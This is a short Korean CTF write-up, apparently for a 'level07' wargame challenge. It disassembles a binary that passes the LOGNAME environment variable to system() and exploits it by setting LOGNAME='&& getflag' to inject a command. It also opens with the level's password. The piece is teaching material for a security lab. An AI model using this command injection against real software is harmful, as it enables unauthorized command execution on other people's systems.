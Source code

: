 > Password: wiok45aaoguiboiki2tuin6ub

# 접근 방법

홈 디렉토리의 `level07`을 `objdump`를 이용하여 어셈블리 코드로 나타내면

```asm
[...]
804856f:	c7 04 24 80 86 04 08 	movl   $0x8048680,(%esp)
8048576:	e8 85 fe ff ff       	call   8048400 <getenv@plt>
804857b:	89 44 24 08          	mov    %eax,0x8(%esp)
804857f:	c7 44 24 04 88 86 04 	movl   $0x8048688,0x4(%esp)
8048586:	08
8048587:	8d 44 24 14          	lea    0x14(%esp),%eax
804858b:	89 04 24             	mov    %eax,(%esp)
804858e:	e8 ad fe ff ff       	call   8048440 <asprintf@plt>
8048593:	8b 44 24 14          	mov    0x14(%esp),%eax
8048597:	89 04 24             	mov    %eax,(%esp)
804859a:	e8 71 fe ff ff       	call   8048410 <system@plt>
804859f:	c9                   	leave
80485a0:	c3                   	ret
[...]
```

`$0x8048680` 주소의 문자열을 `getenv`함수의 첫 인자로 넣고 실행시켜서 환경 변수를 가져온 뒤에 그 값을 문자열 포매팅 함수인 `asprintf`를 이용해서 새로운 문자열에 넣은 뒤, 그 문자열 `system`함수를 사용해서 `shell`을 통해 실행하는 코드인 것을 확인할 수 있다.

전체적인 흐름을 `C`로 표현하면 다음과 같다.
```c
const char *s = getenv("LOGNAME");
asprintf(buf, "/env/echo %s", s);
system(buf);
```

따라서 환경 변수 `LOGNAME`를 `&& getflag`와 같이 변경하면 `getflag` 프로그램이 실행되며 `token`을 획득할 수 있다.

```bash
$ LOGNAME='&& getflag' ./level07
```
